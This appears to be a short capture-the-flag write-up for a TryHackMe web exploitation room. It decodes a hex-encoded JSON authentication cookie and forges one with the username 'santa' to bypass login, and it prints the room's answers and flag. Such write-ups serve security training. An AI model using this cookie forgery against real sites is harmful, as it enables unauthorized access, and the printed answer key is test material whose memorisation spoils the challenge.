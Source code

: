 # Web Exploitation: A Christmas Crisis

## Notes
```
10.10.164.7
```

## Questions
1. What is the name of the cookie used for authentication?
```
auth
```

2. In what format is the value of this cookie encoded?
```
7b22636f6d70616e79223a22546865204265737420466573746976616c20436f6d70616e79222c2022757365726e616d65223a2261646d696e227d => {"company":"The Best Festival Company", "username":"admin"}
hexadecimal
```

3. Having decoded the cookie, what format is the data stored in?
```
json
```

4. Figure out how to bypass the authentication. What is the value of Santa's cookie?
```
{"company":"The Best Festival Company", "username":"admin"} to hex
7b22636f6d70616e79223a22546865204265737420466573746976616c20436f6d70616e79222c2022757365726e616d65223a2273616e7461227d
```

5. What is the flag you're given when the line is fully active?
```
activate all services
THM{MjY0Yzg5NTJmY2Q1NzM1NjBmZWFhYmQy}
```